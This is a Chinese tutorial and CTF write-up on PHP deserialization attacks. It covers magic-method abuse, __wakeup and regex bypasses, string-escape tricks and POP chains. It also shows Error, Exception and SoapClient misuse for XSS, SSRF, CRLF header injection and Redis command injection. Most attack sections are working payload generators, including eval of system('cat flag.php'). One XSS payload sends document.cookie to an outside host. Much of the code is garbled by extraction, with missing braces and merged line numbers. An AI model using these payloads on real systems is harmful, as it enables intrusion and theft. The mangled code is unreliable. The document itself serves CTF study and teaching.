PHP反序列化
0x01 简介
什么是序列化？对象转换成字符串
什么是反序列化？字符串转换成对象
php序列化和反序列化的函数：
序列化：serialize()
反序列化：unserialize()
tip：对字符串进行序列化后是它本身**（ctfshow web260）**
源码：
1 2 3 4 5 6 7 8 9 10 <?php error_reporting (0 );highlight_file (__FILE__ );include ('flag.php' );if (preg_match ('/ctfshow_i_love_36D/' ,serialize ($_GET ['ctfshow' ]))){echo $flag ;
0X02 为何要 PHP 的序列化和反序列化
看到这里，肯定会有人问这个问题，如果说 json 是为了传递数据的方便性，那么 PHP 的序列化又是为了什么呢？
当然，传递数据的方便肯定是这种压缩并格式化存储的一大共同的属性，那么序列化除了这种属性以外还有什么特性呢？要是只是这样那干脆不如直接用 json 好了，当然有，从上面的实验中你没发现吗？我们把一个实例化的对象长久地存储在了计算机的磁盘上，无论什么时候调用都能恢复原来的样子，这其实是为了解决 PHP 对象传递的一个问题,因为 PHP 文件在执行结束以后就会将对象销毁，那么如果下次有一个页面恰好要用到刚刚销毁的对象就会束手无策，总不能你永远不让它销毁，等着你吧，于是人们就想出了一种能长久保存对象的方法，这就是 PHP 的序列化，那当我们下次要用的时候只要反序列化一下就 ok 啦，是不是很方便？
0x03 常见的序列化格式
二进制格式
字节数组
json字符串
xml字符串
0x04 案例
数组序列化
1 2 3 4 5 <?php $a = array ('hello' ,'hi' );$a_ser = serialize ($a );echo $a_ser ;?>
结果：
1 a:2:{i:0;s:5:"hello";i:1;s:2:"hi";}
1 2 3 2：表示a有两个属性
解析：
1 2 3 4 5 6 a - array b - boolean
对象序列化
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php class Student public $name ;public $age ;function __construct ($this ->name = 'abab' ;$this ->age = 18 ;function pr (return $this ->name;return $this ->age;$stu = new Student ();$stu_ser = serialize ($stu );echo $stu_ser ?>
结果：
1 O:7:"Student":2:{s:4:"name";s:4:"abab";s:3:"age";i:18;}
注：序列化后的内容只有成员变量，没有成员函数
还有一种成员变量就是protected类型
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php class test public $aa ;private $bb ;protected $cc ;function __construct ($this ->aa = 'aaa' ;$this ->bb = 'bbb' ;$this ->cc = 'ccc' ;$d = new test ();$d_ser = serialize ($d );echo $d_ser ;?>
如果是private类型，会在变量名前加上**\x00类名\x00**，如果是protected类型，则会加上**\x00*\x00**，
输出则会导致不可见字符\x00的丢失
结果：
1 O:4:"test":3:{s:2:"aa";s:3:"aaa";s:8:"testbb";s:3:"bbb";s:5:"*cc";s:3:"ccc";}
如果需要本地存储推荐“urlencode”
序列化函数serialize()
首先我创一个Ctf类 里面写了三个属性 后创建了一个ctfer对象 将Ctf类里的信息进行了改变。如果后面还要用到这个对象，就可以先将这个对象进行实例化。用的时候在反序列化出来就ok了。

serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，__sleep()方法会先被调用，然后才执行序列化操作
可以在__sleep()方法里决定哪些属性可以被序列化。如果没有__sleep()方法则默认序列化所有属性
实例：

即__sleep()方法使 flag age 属性序列化，而name并没有被序列化。所以可以在__sleep()方法里决定哪些属性被序列化。
0x05 访问控制修饰符
根据访问控制修饰符的不同 序列化后的 属性长度 和属性值 会有所不同，所以这里简单提一下
1 2 3 public(公有)
protected属性被序列化的时候属性值 会变成**%00*%00属性名**属性值 会变成**%00类名%00属性名**
（%00为空白符，空字符也有长度，一个空字符长度为 1）
实例：
1 2 3 4 5 6 7 8 9 10 11 <?php class Ctf public $name ='Sch0lar' ; protected $age ='19' ; private $flag ='get flag' ;$ctfer =new Ctf (); echo serialize ($ctfer ); ?> 3 :"Ctf" :3 :{s:4 :"name" ;s:7 :"Sch0lar" ;s:6 :"*age" ;s:2 :"19" ;s:9 :"Ctfflag" ;s:8 :"get flag" ;}
可以看到
1 2 s:6:"*age" //*前后出现两个空白符，一个空白符长度为1，所以序列化后，该属性长度为6
0x06 PHP-反序列化
6.1 常见的PHP魔术方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 __construct()，类的构造函数，当一个对象创建时被调用，反序列化不触发
反序列化函数unserialize()。反序列化就是将一个序列化了的对象或数组字符串，还原回去

与序列化函数类似，unserialize()会检查类中是否存在一个__wakeup魔术方法 如果存在则会先调用__wakeup()方法，再进行序列化
可以在__wakeup()方法中对属性进行初始化、赋值或者改变。
反序列化之前重新给flag属性赋值
1 2 3 4 5 6 7 8 9 // 输出结果
6.2 漏洞成因
原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控后果。
在反序列化的过程中自动触发了某些魔术方法。
漏洞触发条件： unserialize函数的参数、变量可控，php文件中存在可利用的类，类中有魔术方法
而在反序列化时，如果反序列化对象中存在魔法函数，使用unserialize()函数同时也会触发。这样，一旦我们能够控制unserialize()入口，那么就可能引发对象注入漏洞。
6.3 序列化引擎
php对session的处理有三种引擎分别为php、php_serialize、php_binary.经过这三者处理后的session结构都不相同。
1 2 3 4 5 php_serialize ->与serialize函数序列化后的结果一致
使用php引擎的结果：

使用php_serialize引擎的结果：

使用php_binary引擎的结果如下

其中存在不可见字符，将结果进行URL编码如下

在session文件可写的情况下，可手动写入我们想要的内容,例如
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php ini_set ('open_basedir' ,'/var/www/html' );session_save_path ('/var/www/html' );session_start ();highlight_file (__FILE__ );include "flag.php" ;$banner = "--4ut15m--\n" ;if ($_SESSION ['name' ]==='admin' ){echo $flag ."<br>" ;else if (isset ($_GET ['name' ]) && isset ($_GET ['content' ])){if (preg_match ('/ph/i' ,$_GET ['name' ])){var_dump ($_GET ['name' ]);die ('over' );else file_put_contents ('/var/www/html/' .$_GET ['name' ],$banner . $_GET ['content' ]);?>
该题目中可任意文件写入，故写入session文件构造name=admin.payload=|s:3:"xxx";name|s:5:"admin";

简单说一下payload.
banner和payload拼接在一起后变为--4ut15m--\n|s:3:"xxx";name|s:5:"admin";经php序列化引擎反序列化后就成为了
1 $_SESSION=['--4ut15m--\n' => 'xxx', 'name' => 'admin']
0x07 反序列化绕过小Trick
7.1 php7.1+反序列化对类属性不敏感
我们前面说了如果变量前是protected，序列化结果会在变量名前加上\x00*\x00
但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有\x00*\x00也依然会输出abc
1 2 3 4 5 6 7 8 9 10 11 12 <?php class test protected $a ;public function __construct ($this ->a = 'abc' ;public function __destruct (echo $this ->a;unserialize ('O:4:"test":1:{s:1:"a";s:3:"abc";}' );?>
7.2 绕过__wakeup
1 2 3 版本：
利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行
例：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php class test public $a ;public function __construct ($this ->a = 'abc' ;public function __wakeup ($this ->a='666' ;public function __destruct (echo $this ->a;
1 2 3 如果执行unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');输出结果为666
7.3 绕过部分正则
正则表达式：描述了一种字符串匹配的模式（pattern），可以用来检查一个串是否含有某种子串、将匹
1 2 3 preg_match('/^O:\d+/')
利用加号绕过（在url传参时注意+编码为%2B）
serialize(array( a ) ) a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php class test public $a ;public function __construct ($this ->a = 'abc' ;public function __destruct (echo $this ->a.PHP_EOL;function match ($data if (preg_match ('/^O:\d+/' ,$data )){die ('you lose!' );else {return $data ;$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}' ;$b = str_replace ('O:4' ,'O:+4' , $a );unserialize (match ($b ));unserialize ('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}' );
对应 ctfshow web258
编写脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php class ctfShowUser public $username ='xxxxxx' ;public $password ='xxxxxx' ;public $isVip =false ;public $class = 'backDoor' ;public function __construct ($this ->class =new backDoor (); } public function __destruct () {$this ->class ->getInfo (); } } class backDoor public $code ='system("cat flag.php");' ;public function getInfo (eval ($this ->code);$a = new ctfShowUser ();$a = serialize ($a );$a = str_replace ('O:' , 'O:+' ,$a );echo urlencode ($a );?>
7.4 利用引用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php class test public $a ;public $b ;public function __construct ($this ->a = 'abc' ;$this ->b= &$this ->a;public function __destruct (if ($this ->a===$this ->b){echo 666 ;$a = serialize (new test ());
上面这个例子将$b设置为$a的引用，可以使$a永远与$b相等
对应于ctfshow 265
脚本代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php class ctfshowAdmin public $token ;public $password ;public function __construct ($t ,$p $this ->token=$t ;$this ->password = &$this ->token;public function login (return $this ->token===$this ->password;$a = serialize (new ctfshowAdmin ('123' ,'123' ));echo urlencode ($a );?>
7.5 16进制绕过字符的过滤
1 2 3 4 5 O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php class test public $username ;public function __construct ($this ->username = 'admin' ;public function __destruct (echo 666 ;function check ($data if (stristr ($data , 'username' )!==False){echo ("你绕不过！！" .PHP_EOL);else {return $data ;$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}' ;$a = check ($a );unserialize ($a );$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}' ;$a = check ($a );unserialize ($a );
7.6 PHP反序列化字符逃逸
1.过滤后字符变多（反序列化后的一个x替换成为两个）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php function change ($str return str_replace ("x" ,"xx" ,$str );$name = $_GET ['name' ];$age = "I am 11" ;$arr = array ($name ,$age );echo "反序列化字符串：" ;var_dump (serialize ($arr ));echo "<br/>" ;echo "过滤后:" ;$old = change (serialize ($arr ));$new = unserialize ($old );var_dump ($new );echo "<br/>此时，age=$new [1]" ;?>
正常输出如下

添加一个x看看：

这个就是将GET传入的name中的 x 改为了 xx
1 ?name=abcxxxxxxxxxxxxxxxxxxxx";i:1;s:6:"whoami";}
输出如下：

解释：
当我们构造name时，在abc后写18个x，而且后面 ";i:1;s:4:“flag”;} 也是18的长度
总之，age变量被我们控制
2.过滤后字符变少(把反序列化后的两个x替换成为一个)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php function change ($str return str_replace ("xx" ,"x" ,$str );$arr ['name' ] = $_GET ['name' ];$arr ['age' ] = $_GET ['age' ];echo "反序列化字符串：" ;var_dump (serialize ($arr ));echo "<br/>" ;echo "过滤后:" ;$old = change (serialize ($arr ));var_dump ($old );echo "<br/>" ;$new = unserialize ($old );var_dump ($new );echo "<br/>此时，age=" ;echo $new ['age' ];
构造：
1 ?name=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&age=11";s:3:"age";s:6:"whoami";}
这里的40个x经过滤后就变为了20个x，但是在前面的长度还是40，所以后面的20个字符被”吃掉“
注意 ";s:3:“age”;s:28: 这一部分本来就有，后面的 ;s:3:“age”;s:6:“whoami”;} 为我们所构造的
ctfshow web262
脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php class message public $from ;public $msg ;public $to ;public $token ='user' ;public function __construct ($f ,$m ,$t $this ->from = $f ;$this ->msg = $m ;$this ->to = $t ;function filter ($msg return str_replace ('fuck' , 'loveU' , $msg );$msg = new message ('fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}' ,'b' ,'c' );$msg_1 = serialize ($msg );echo $msg_1 ;$msg_2 =filter ($msg_1 );echo $msg_2 ;?>
0x08 对象注入
对象注入前提需要满足两个条件
1 2 3 1、unserialize的参数可控。
1 2 3 4 5 6 7 8 9 10 <?php class A public $test = "12345" ;function __destruct (echo $this ->test;$a = 'O:1:"A":1:{s:4:"test";s:5:"23456";}' ;unserialize ($a );?>
脚本结束时会调用**__destruct()函数**，同时会覆盖test变量输出 23456
0x09 POP链简单介绍
前面所讲解的序列化攻击更多的是魔术方法中出现一些利用的漏洞，因为自动调用而触发漏洞，但如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来
简单案例MRCTF2020-Ezpop
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 <?php class Modifier protected $var ;public function append ($value include ($value );public function __invoke ($this ->append ($this ->var );$a $b class Show public $source ;public $str ;public function __construct ($file ='index.php' $this ->source = $file ;echo 'Welcome to ' .$this ->source."<br>" ;public function __toString (return $this ->str->source;public function __wakeup (if (preg_match ("/gopher|http|file|ftp|https|dict|\.\./i" , $this ->source))echo "hacker" ;$this ->source = "index.php" ;class Test public $p ;public function __construct ($this ->p = array ();public function __get ($key $function = $this ->p;return $function ();if (isset ($_GET ['pop' ])){unserialize ($_GET ['pop' ]);else {$a =new Show ;highlight_file (__FILE__ );?>
共有3个类，反序列化会调用__wakeup，存在于Show类__wake中的$this->source可控，也就是Show中$source变量可控
思路：将$source构造成一个对象Show，当$source为一个对象时。就会执行Show类中的__toString
1 $var = 'php://filter/read=convert.base64-encode/recource=flag.php';
payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php ini_set ('memory_limit' ,'-1' );class Modifier protected $var = 'php://filter/read=convert.base64- encode/resource=flag.php' ;class Show public $source ;public $str ;public function __construct ($file $this ->source = $file ;$this ->str = new Test ();class Test public $p ;public function __construct ($this ->p = new Modifier ();$a = new Show ('aaa' );$a = new Show ($a );echo urlencode (serialize ($a ));?>
来自：https://www.bilibili.com/video/av4142669
0x10 PHP原生类反序列化利用
我们可以使用以下方法遍历一下PHP的内置类：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php $classes = get_declared_classes (); foreach ($classes as $class ) {$methods = get_class_methods ($class ); foreach ($methods as $method ) {if (in_array ($method , array ('__destruct' ,'__toString' ,'__wakeup' ,'__call' ,'__callStatic' ,'__get' ,'__set' ,'__isset' ,'__unset' ,'__invoke' ,'__set_state' // 可以根据题目环境将指定的方法添加进来, 来遍历存在指定方法的原生类print $class . '::' . $method . "\n" ;
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 Exception ::__wakeup Exception ::__toString ErrorException ::__wakeup ErrorException ::__toString Error ::__wakeup Error ::__toString CompileError ::__wakeup CompileError ::__toString ParseError ::__wakeup ParseError ::__toString TypeError ::__wakeup TypeError ::__toString ArgumentCountError ::__wakeup ArgumentCountError ::__toString ArithmeticError ::__wakeup ArithmeticError ::__toString DivisionByZeroError ::__wakeup DivisionByZeroError ::__toString ClosedGeneratorException ::__wakeup ClosedGeneratorException ::__toString DateTime ::__wakeup
其中常遇到的几个 PHP 原生类有：
Error
Exception
SoapClient
DirectoryIterator
SimpleXMLElement
SplFileObject
10.1 Error/Exception 内置类进行 XSS
Error 内置类
Error类是php的一个内置类，用于自动自定义一个Error，在php7的环境下可能会造成一个xss漏洞，因为它内置有一个 __toString() 的方法，常用于PHP 反序列化中。如果有个POP链走到一半就走不通了，不如尝试利用这个来做一个xss，其实我看到的还是有好一些cms会选择直接使用 echo <Object> 的写法，我们都知道当把对象当成字符串的时候它就会自动调用这个方法，而它会将Error以字符串的形式表达出来；那么假如有一个echo将它输出出来，而输出内容如果是我们可以控制的，那我们就可以用<script>标签来执行js代码了
example:
1 2 3 4 <?php $a = unserialize ($_GET ['whoami' ]);echo $a ;?>
（这里可以看到是一个反序列化函数，但是没有让我们进行反序列化的类啊，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化）
POC:
1 2 3 4 5 6 <?php $a = new Error ("<script>alert('xss')</script>" );$b = serialize ($a );echo urlencode ($b ); ?>


1 <script>标签直接被嵌入了进去，那里面的内容自然就会被当成js代码执行咯
Exception类和Error类类似，用法原理都差不多，这里就不赘述了，只不过Exception类无论是在php5还是php7的环境下都能使用
Exception 内置类
example：
1 2 3 4 <?php $a = unserialize ($_GET ['whoami' ]);echo $a ;?>
1 2 3 4 5 6 <?php $a = new Exception ("<script>alert('xss')</script>" );$b = serialize ($a );echo urlencode ($b ); ?>

[BJDCTF 2nd]xss之光
不知道为何BUU里面这道题没了，只好看着别人的说一次。
进入题目，首先通过git泄露拿到源码：
1 2 3 <?php $a = $_GET ['yds_is_so_beautiful' ];echo unserialize ($a );
仅看到一个反序列化函数并没有给出需要反序列化的类，这就遇到了一个反序列化但没有POP链的情况，所以只能找PHP内置类来进行反序列化。又发现有个echo，没得跑了，就是我们刚才演示的利用Error或Exception内置类进行XSS，但是查看一下题目的环境发现是PHP 5，所以我们要使用Exception类。
由于此题是xss，所以只要xss执行window.open()就能把flag带出来，所以POC如下：
1 2 3 4 5 6 <?php $poc = new Exception ("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>" );echo urlencode (serialize ($poc ));?>
执行后，得到flag就在 cookie 中。
10.2 Error/Exception 内置类绕过哈希比较
Error 类
Error 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。
类摘要：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 Error implements Throwable {protected string $message ;protected int $code ;protected string $file ;protected int $line ;public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )final public getMessage ( ) : string final public getPrevious ( ) : Throwable final public getCode ( ) : mixed final public getFile ( ) : string final public getLine ( ) : int final public getTrace ( ) : array final public getTraceAsString ( ) : string public __toString ( ) : string final private __clone ( ) : void
类属性：
1 2 3 4 - message：错误消息内容
类方法：
1 2 3 4 5 6 7 8 9 10 - `Error::__construct` — 初始化 error 对象
Exception 类
Exception 是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。
类摘要：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 Exception {protected string $message ;protected int $code ;protected string $file ;protected int $line ;public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )final public getMessage ( ) : string final public getPrevious ( ) : Throwable final public getCode ( ) : mixed final public getFile ( ) : string final public getLine ( ) : int final public getTrace ( ) : array final public getTraceAsString ( ) : string public __toString ( ) : string final private __clone ( ) : void
类属性：
1 2 3 4 - message：异常消息内容
类方法：
1 2 3 4 5 6 7 8 9 10 - `Exception::__construct` — 异常构造函数
我们可以看到，在Error和Exception这两个PHP原生类中内都有 __toString 方法，这个方法用于将异常或错误对象转换为字符串。
我们以Error为例，我们看看当触发他的 __toString 方法时会发生什么：
1 2 3 <?php $a = new Error ("payload" ,1 );echo $a ;
输出：
1 2 3 Error : payload in /var /www/html/tmp/test.php:2
发现这将会以字符串的形式输出当前报错，包含当前的错误信息（”payload”）以及当前报错的行号（”2”），而传入 Error("payload",1) 中的错误代码“1”则没有输出出来。
在来看看下一个例子：
1 2 3 4 5 <?php $a = new Error ("payload" ,1 );$b = new Error ("payload" ,2 );echo $a ;echo "\r\n\r\n" ;echo $b ;
输出：
1 2 3 4 5 6 7 Error : payload in /var /www/html/tmp/test.php:2 Error : payload in /var /www/html/tmp/test.php:2
可见，$a 和 $b 这两个错误对象本身是不同的，但是 __toString 方法返回的结果是相同的。注意，这里之所以需要在同一行是因为 __toString 返回的数据包含当前行号。
Exception 类与 Error 的使用和结果完全一样，只不过 Exception 类适用于PHP 5和7，而 Error 只适用于 PHP 7。
Error和Exception类的这一点在绕过在PHP类中的哈希比较时很有用。
[2020 极客大挑战]Greatphp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php error_reporting (0 );class SYCLOVER public $syc ;public $lover ;public function __wakeup (if ( ($this ->syc != $this ->lover) && (md5 ($this ->syc) === md5 ($this ->lover)) && (sha1 ($this ->syc)=== sha1 ($this ->lover)) ){if (!preg_match ("/\<\?php|\(|\)|\"|\'/" , $this ->syc, $match )){eval ($this ->syc);else {die ("Try Hard !!" );if (isset ($_GET ['great' ])){unserialize ($_GET ['great' ]);else {highlight_file (__FILE__ );?>
我们可以将题目代码中的 $syc 和 $lover 分别声明为类似上面的内置类的对象，让这两个对象本身不同（传入的错误代码即可），但是 __toString 方法输出的结果相同即可
poc：这里说一下url取反
URL编码取反绕过
适用PHP版本：无限制
当PHP>=7时，可以直接利用取反构造payload
PS C:\Users\Administrator> php -r "var_dump(urlencode(~'phpinfo'));"
Command line code:1:
string(21) "%8F%97%8F%96%91%99%90"
//实际上
(~%8F%97%8F%96%91%99%90)();
#phpinfo();
1 2 3 4 5 6 7 8 9 10 <?php $str = "?><?=include~" .urldecode ("%D0%99%93%9E%98" )."?>" ; $a =new Error ($str ,1 );$b =new Error ($str ,2 );$c = new SYCLOVER ();$c ->syc = $a ;$c ->lover = $b ;echo (urlencode (serialize ($c )));?>
10.3 SoapClient 类进行 SSRF
SoapClient 类
SOAP（简单对象访问协议）是连接Web服务或客户端和Web服务之间的接口。其采用HTTP作为底层通讯协议，XML作为数据传送的格式，仅限于http/https协议。SOAP消息基本上是从发送端到接收端的单向传输，但它们常常结合起来执行类似于请求 / 应答的模式。
如果想要使用SoapClient类需要在php.ini配置文件里面开启extension=php_soap.dll选项
类摘要：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 SoapClient {public __construct ( string |null $wsdl , array $options = [] )public __call ( string $name , array $args ) : mixed public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string |null public __getCookies ( ) : array public __getFunctions ( ) : array |null public __getLastRequest ( ) : string |null public __getLastRequestHeaders ( ) : string |null public __getLastResponse ( ) : string |null public __getLastResponseHeaders ( ) : string |null public __getTypes ( ) : array |null public __setCookie ( string $name , string |null $value = null ) : void public __setLocation ( string $location = "" ) : string |null public __setSoapHeaders ( SoapHeader|array |null $headers = null ) : bool public __soapCall ( string $name , array $args , array |null $options = null , SoapHeader|array |null $inputHeaders = null , array &$outputHeaders = null ) : mixed
可以看到，该内置类有一个 __call 方法，当 __call 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 __call 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。
该类的构造函数如下：
1 public SoapClient :: SoapClient (mixed $wsdl [，array $options ])
第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。
使用 SoapClient 类进行 SSRF
知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的location选项设置为target_url。
1 2 3 4 5 6 7 <?php $a = new SoapClient (null ,array ('location' =>'http://192.168.91.153:2333/aaa' , 'uri' =>'http://192.168.91.153:2333' ));$b = serialize ($a );echo $b ;$c = unserialize ($b );$c ->a (); ?>
example：
首先在192.168.91.153:2333上起一个监听，然后再执行上述代码，就能够成功发送HTTP请求：
1 2 3 4 5 6 7 8 9 10 11 12 13 root@ubuntu18:~0.0 .0.0 ] (family 0 , port 2333 )from 192.168 .91.1 7856 received!1.1 192.168 .91.153 :2333 7.4 .3 8 "http://192.168.91.153:2333#a" 387 <? xml version="1.0" encoding="UTF-8" ?> "http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://192.168.91.153:2333" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" ><SOAP-ENV:Body><ns1:a/></SOAP-ENV:Body></SOAP-ENV:Envelope>
这里不知为何我开启不了这个类,先看个思路
但是，由于它仅限于HTTP/HTTPS协议，所以用处不是很大。而如果这里HTTP头部还存在CRLF漏洞的话，但我们则可以通过SSRF+CRLF，插入任意的HTTP头。
如下测试代码，我们在HTTP头中插入一个cookie：
1 2 3 4 5 6 7 8 <?php $target = 'http://192.168.91.153:2333/' ;$a = new SoapClient (null ,array ('location' => $target , 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4" , 'uri' => 'test' ));$b = serialize ($a );echo $b ;$c = unserialize ($b );$c ->a (); ?>
执行代码后，如下图所示，成功在HTTP头中插入了一个我们自定义的cookie：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 root@ubuntu18:~0.0 .0.0 ] (family 0 , port 2333 )from 192.168 .91.1 7858 received!1.1 192.168 .91.153 :2333 8 "test#a" 365 <? xml version="1.0" encoding="UTF-8" ?> "http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="test" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" ><SOAP-ENV:Body><ns1:a/></SOAP-ENV:Body></SOAP-ENV:Envelope>
利用HTTP协议去攻击Redis：
1 2 3 4 5 6 7 8 9 10 <?php $target = 'http://192.168.91.153:2333/' ;$poc = "CONFIG SET dir /var/www/html" ;$a = new SoapClient (null ,array ('location' => $target , 'uri' => 'hello^^' .$poc .'^^hello' ));$b = serialize ($a );$b = str_replace ('^^' ,"\n\r" ,$b ); echo $b ;$c = unserialize ($b );$c ->a (); ?>
执行代码后，如下图所示，成功插入了Redis命令：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 root@ubuntu18:~0.0 .0.0 ] (family 0 , port 2333 )from 192.168 .91.1 7860 received!1.1 192.168 .91.153 :2333 7.4 .3 8 "hello CONFIG SET dir /var/www/html # 这里就是Redis命令 hello#a" 403 <? xml version="1.0" encoding="UTF-8" ?> "http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="hello CONFIG SET dir /var/www/html hello" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" ><SOAP-ENV:Body><ns1:a/></SOAP-ENV:Body></SOAP-ENV:Envelope>
这样我们就可以利用HTTP协议去攻击Redis了。
对于如何发送POST的数据包，这里面还有一个坑，就是 Content-Type 的设置，因为我们要提交的是POST数据，所以 Content-Type 的值我们要设置为 application/x-www-form-urlencoded，这里如何修改 Content-Type 的值呢？由于 Content-Type 在 User-Agent 的下面，所以我们可以通过 SoapClient 来设置 User-Agent ，将原来的 Content-Type 挤下去，从而再插入一个新的 Content-Type 。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php $target = 'http://192.168.91.153:2333/' ;$post_data = 'data=whoami' ;$headers = array ('X-Forwarded-For: 127.0.0.1' ,'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93' $a = new SoapClient (null ,array ('location' => $target ,'user_agent' =>'wupco^^Content-Type: application/x-www-form-urlencoded^^' .join ('^^' ,$headers ).'^^Content-Length: ' . (string )strlen ($post_data ).'^^^^' .$post_data ,'uri' =>'test' ));$b = serialize ($a );$b = str_replace ('^^' ,"\n\r" ,$b );echo $b ;$c = unserialize ($b );$c ->a (); ?>
执行代码后，成功发送POST数据：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 root@ubuntu18:~0.0 .0.0 ] (family 0 , port 2333 )from 192.168 .91.1 7862 received!1.1 192.168 .91.153 :2333 127.0 .0.1 3 stu05dr969ogmprk28drnju9311 8 "test#a" 365 <? xml version="1.0" encoding="UTF-8" ?> "http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="test" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" ><SOAP-ENV:Body><ns1:a/></SOAP-ENV:Body></SOAP-ENV:Envelope>
[LCTF 2018]bestphp’s revenge
题目给了源码(跟着复现一波)
1 2 3 4 5 6 7 8 9 10 11 12 <?php highlight_file (__FILE__ );$b = 'implode' ;call_user_func ($_GET ['f' ], $_POST );session_start ();if (isset ($_GET ['name' ])) {$_SESSION ['name' ] = $_GET ['name' ];var_dump ($_SESSION );$a = array (reset ($_SESSION ), 'welcome_to_the_lctf2018' );call_user_func ($b , $a );?> array (0 ) { }
扫一下目录：flag.php
1 2 3 4 5 echo 'only localhost can get flag!' ;$flag = 'LCTF{*************************}' ;if ($_SERVER ["REMOTE_ADDR" ]==="127.0.0.1" ){$_SESSION ['flag' ] = $flag ;
这里说说明了需要本地地址访问才能输出flag。
1. 变量覆盖
首先我们看到第一个call_user_func()函数里面2个参数我们都可控，因此想到用extract()函数进行变量覆盖，先用var_dump()看一下session的内容：

